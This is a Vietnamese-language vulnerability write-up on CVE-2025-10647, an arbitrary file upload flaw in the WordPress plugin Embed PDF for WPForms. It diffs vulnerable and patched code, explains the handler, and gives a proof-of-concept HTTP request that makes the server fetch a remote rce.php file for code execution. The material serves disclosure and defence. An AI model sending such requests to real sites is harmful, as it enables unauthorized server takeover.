


<!--more-->

## CVE & Basic Info
Plugin **Embed PDF for WPForms** cho **WordPress** bị lỗ hổng cho phép **arbitrary file uploads** do thiếu kiểm tra loại file trong hàm `ajax_handler_download_pdf_media` ở tất cả các phiên bản đến và bao gồm **1.1.5**. Điều này cho phép kẻ tấn công đã xác thực, với quyền truy cập từ mức **Subscriber** trở lên, tải lên các file tùy ý lên server của site bị ảnh hưởng, và có thể dẫn đến **remote code execution**.

* **CVE ID**: [CVE-2025-10647](https://www.cve.org/CVERecord?id=CVE-2025-10647)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 1.1.5
* **Patched Versions**: 1.1.6
* **CVSS severity**: High (9.9)
* **Required Privilege**: Subscriber
* **Product**: [WordPress Embed PDF for WPForms Plugin](https://wordpress.org/plugins/embed-pdf-wpforms/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Embed PDF for WPForms**: **1.1.5** (vulnerable) và **1.1.6** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.
* [**WPForms Plugin**](https://wordpress.org/plugins/wpforms-lite/)

## Analysis

### Patch Diff

```php {title="class-wpforms-field-pdf-viewer.php - v1.1.5" hl_lines=[8,11,21,22,23,24,28,29] data-open=true}
public function ajax_handler_download_pdf_media() {
    check_ajax_referer( 'epdf_wf_download_pdf_media' );

    if ( empty( $_POST['url'] ) ) {
        wp_send_json_error();
    }

    $url = esc_url_raw( wp_unslash( $_POST['url'] ) );

    // Download the file.
    $tmp_file = download_url( $url );
    if ( is_wp_error( $tmp_file ) ) {
        wp_send_json_error(
            array(
                /* translators: 1. An error message. */
                'msg' => sprintf( __( 'The download failed with error "%s"', 'embed-pdf-wpforms' ), $tmp_file->get_error_message() ),
            )
        );
    }
    // Move from a temp file to the uploads directory.
    $upload_dir = wp_upload_dir();
    $file_name  = wp_unique_filename( $upload_dir['path'], basename( $url ) );
    $path       = $upload_dir['path'] . DIRECTORY_SEPARATOR . $file_name;
    global $wp_filesystem;
    if ( ! class_exists( 'WP_Filesystem' ) ) {
        require_once ABSPATH . '/wp-admin/includes/file.php';
    }
    WP_Filesystem();
    $wp_filesystem->move( $tmp_file, $path );
    ...
}
```

Trong phiên bản lỗi, hàm `ajax_handler_download_pdf_media()` tải một file PDF từ URL được cung cấp vào Media Library của WordPress thông qua AJAX nhưng không kiểm tra loại file, không kiểm tra quyền người dùng.

> [!BUG]
> Attacker có thể upload file `.php` để thực hiện RCE

```php {title="class-wpforms-field-pdf-viewer.php - v1.1.6" hl_lines=[4,18] data-open=true}
public function ajax_handler_download_pdf_media() {
    check_ajax_referer( 'epdf_wf_download_pdf_media' );

    if ( ! current_user_can( 'upload_files' ) ) {
        wp_send_json_error(
            array(
                'msg' => __( 'The download failed', 'embed-pdf-wpforms' ),
            )
        );
    }

    if ( empty( $_POST['url'] ) ) {
        wp_send_json_error();
    }

    $url = esc_url_raw( wp_unslash( $_POST['url'] ) );

    if ( ! wp_check_filetype( basename( $url ) )['type'] ) {
        wp_send_json_error(
            array(
                'msg' => __( 'The download failed', 'embed-pdf-wpforms' ),
            )
        );
    }

    // Download the file.
    $tmp_file = download_url( $url );
    if ( is_wp_error( $tmp_file ) ) {
        wp_send_json_error(
            array(
                /* translators: 1. An error message. */
                'msg' => sprintf( __( 'The download failed with error "%s"', 'embed-pdf-wpforms' ), $tmp_file->get_error_message() ),
            )
        );
    }
    // Move from a temp file to the uploads directory.
    $upload_dir = wp_upload_dir();
    $file_name  = wp_unique_filename( $upload_dir['path'], basename( $url ) );
    $path       = $upload_dir['path'] . DIRECTORY_SEPARATOR . $file_name;
    global $wp_filesystem;
    if ( ! class_exists( 'WP_Filesystem' ) ) {
        require_once ABSPATH . '/wp-admin/includes/file.php';
    }
    WP_Filesystem();
    $wp_filesystem->move( $tmp_file, $path );
    ...
}
```

Bản vá đã:
* Thực hiện kiểm tra quyền người dùng:

```php
if ( ! current_user_can( 'upload_files' ) ) { ... }
```

Chỉ cho phép user có quyền upload mới được gọi handler.

* Chỉ chấp nhận một số loại file được tải lên

```php
if ( ! wp_check_filetype( basename( $url ) )['type'] ) { 
    wp_send_json_error(
        array(
            'msg' => __( 'The download failed', 'embed-pdf-wpforms' ),
        )
    );
}
```

[`wp_check_filetype()`](https://developer.wordpress.org/reference/functions/wp_check_filetype/) thuộc WP Core trả về 2 key chính:

```php
array(
    'ext'  => string|false, 
    'type' => string|false
)
```

Nếu `type` không thuộc [`wp_get_mime_types()`](https://developer.wordpress.org/reference/functions/wp_get_mime_types/) thì trả về false. Mặc định chỉ chấp nhận các file không thực thi được (Không chấp nhận `php`).

### Vulnerable Code 

Hàm `ajax_handler_download_pdf_media()`:
1. Check `nonce` chống CSRF

```php
check_ajax_referer( 'epdf_wf_download_pdf_media' );
```

Khi tìm kiếm với từ khóa `epdf_wf_download_pdf_media` trong thư mục chứa mã nguồn của plugin


Nonce được tạo có key là `_ajax_nonce` được lưu trữ bởi Object `epdf_wf_pdf_viewer_strings` => có thể lấy giá trị của `_ajax_nonce` trong console của trình duyệt bằng cách gọi `epdf_wf_pdf_viewer_strings.nonce`



Nonce này được tạo sau khi truy cập trang được tạo bằng **WPForms** sử dụng **PDF Viewer**



Form được tạo sẽ embed vào Post/Page của WordPress

2. Kiểm tra dữ liệu gửi lên

```php
if ( empty( $_POST['url'] ) ) {
    wp_send_json_error();
}
```

Nếu request không có url, hàm sẽ trả về JSON lỗi và dừng thực thi.

3. Lấy và làm sạch URL

```php
$url = esc_url_raw( wp_unslash( $_POST['url'] ) );
```

* `wp_unslash()` loại bỏ slash escape (WordPress tự thêm escape khi gửi POST).
* `esc_url_raw()` làm sạch URL để đảm bảo an toàn trước khi dùng để tải file.

4. Tải file về server (temporary)

```php
$tmp_file = download_url( $url );
```

* `download_url()` tải file từ URL về file tạm thời trên server.
* Trả về đường dẫn tới file tạm nếu thành công, hoặc `WP_Error` nếu thất bại.

```php
if ( is_wp_error( $tmp_file ) ) {
    wp_send_json_error(
        array(
            'msg' => sprintf( __( 'The download failed with error "%s"', 'embed-pdf-wpforms' ), $tmp_file->get_error_message() ),
        )
    );
}
```

* Nếu download thất bại → trả về JSON lỗi kèm thông báo lỗi.

5. Xác định thư mục upload và tên file

```php
$upload_dir = wp_upload_dir(); 
$file_name  = wp_unique_filename( $upload_dir['path'], basename( $url ) );
$path       = $upload_dir['path'] . DIRECTORY_SEPARATOR . $file_name;
```

* `wp_upload_dir()` trả về mảng thông tin thư mục uploads: path, URL, subdir, …
* `wp_unique_filename()` đảm bảo tên file không trùng với các file đã có.
* `$path` là đường dẫn đầy đủ nơi file sẽ được lưu.
* `$upload_dir['path']` thường có dạng là `wp-content/uploads/year/month`

6. Khởi tạo hệ thống Filesystem của WordPress

```php
global $wp_filesystem;

if ( ! class_exists( 'WP_Filesystem' ) ) {
    require_once ABSPATH . '/wp-admin/includes/file.php';
}

WP_Filesystem();
```

7. Di chuyển file tạm sang thư mục uploads
```php
$wp_filesystem->move( $tmp_file, $path );
```

* Di chuyển file từ `temp ($tmp_file)` sang `uploads ($path)`.
* Sử dụng `$wp_filesystem->move()` thay vì `rename()` để tương thích mọi môi trường (`Direct`, `FTP`, `…`).

---

`ajax_handler_download_pdf_media()` được dăng ký làm callback cho action hook 

```php
add_action( 'wp_ajax_epdf_wf_download_pdf_media', array( $this, 'ajax_handler_download_pdf_media' ) );
```

Điều này có nghĩa là:

* `wp_ajax_` yêu cầu người dùng đã đăng nhập(tối thiếu là `Subcriber`) mới được gửi request đươc chấp nhận
* `epdf_wf_download_pdf_media` là action được truyền trong param

Khi người dùng đã đăng nhập gửi request đến endpoint `/wp-admin/admin-ajax.php` với param `action=epdf_wf_download_pdf_media` thì `ajax_handler_download_pdf_media()` được gọi để xử lý request

### Flow


graph TD
A["Subcriber POST -> /wp-admin/admin-ajax.php?action=epdf_wf_download_pdf_media&url=..."] --> B["ajax_handler_download_pdf_media()"]
B --> C["check_ajax_referer('epdf_wf_download_pdf_media')"]
C --> D["download_url($url) -> $tmp_file (temporary file)"]
D --> E{"is_wp_error($tmp_file) ?"}
E -- "yes" --> F["wp_send_json_error() -> STOP"]
E -- "no" -->  K["Uploaded file accessible → potential RCE"]


## Exploit

### Proof of Concept (PoC)
1. Truy cập trang chứa form được tạo từ **WPForms** sử dụng **PDF Viewer**
2. Lấy nonce
3. Tạo file `.php` chứa code RCE và lưu trữ trên internet
4. Gửi POST request với url trỏ đến file vừa tạo.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7C69db0f51f219492ec3f150bb86bc1364f7cd33442587ddf3f1bf334e4cdec409; wp-settings-time-2=1761725656; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wp-settings-2=editor%3Dtinymce%26libraryContent%3Dbrowse; wp-settings-time-3=1761711790; wp-settings-3=libraryContent%3Dbrowse; _lscache_vary=fff4fa950d2b9daa95c3289bb2a7040a; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7Ca7cb9996e74be71e18c68f339c0ad07a43687c7eb701f89fe90374cc2a783131; wp-settings-time-5=1761992371
...

_ajax_nonce=ea2ccf0ccd&action=epdf_wf_download_pdf_media&url=https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

5. Truy cập file vừa tạo và RCE


## Conclusion

Lỗ hổng cho phép **arbitrary file upload** trong `ajax_handler_download_pdf_media()` là do thiếu kiểm tra quyền và kiểu file khi tải file từ URL, dẫn đến khả năng kẻ tấn công có tài khoản Subscriber tải lên file thực thi (ví dụ `.php`) và gây **RCE**. Nhà phát triển đã khắc phục bằng cách kiểm tra `current_user_can('upload_files')` và xác thực MIME với `wp_check_filetype()` trong phiên bản **1.1.6**. Đối với site bị ảnh hưởng, cần cập nhật lên 1.1.6 ngay, kiểm tra và xoá các file khả nghi trong thư mục uploads, rà soát quyền người dùng và nhật ký để phát hiện dấu hiệu khai thác.

## Key Takeaway

* Luôn kiểm tra quyền người dùng (`current_user_can`) trước khi thực hiện upload qua AJAX.
* Luôn xác thực kiểu/MIME của file (`wp_check_filetype` / whitelist) trước khi lưu.
* Cập nhật plugin nhanh chóng khi có bản vá; rà soát file upload và log sau khi phát hiện lỗi.
* Áp dụng nguyên tắc ít quyền nhất (least privilege) và giám sát hành vi bất thường trong media/uploads.                   

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[WordPress Embed PDF for WPForms Plugin <= 1.1.5 is vulnerable to Arbitrary File Upload](https://patchstack.com/database/wordpress/plugin/embed-pdf-wpforms/vulnerability/wordpress-embed-pdf-for-wpforms-plugin-1-1-5-authenticated-subscriber-arbitrary-file-upload-vulnerability) 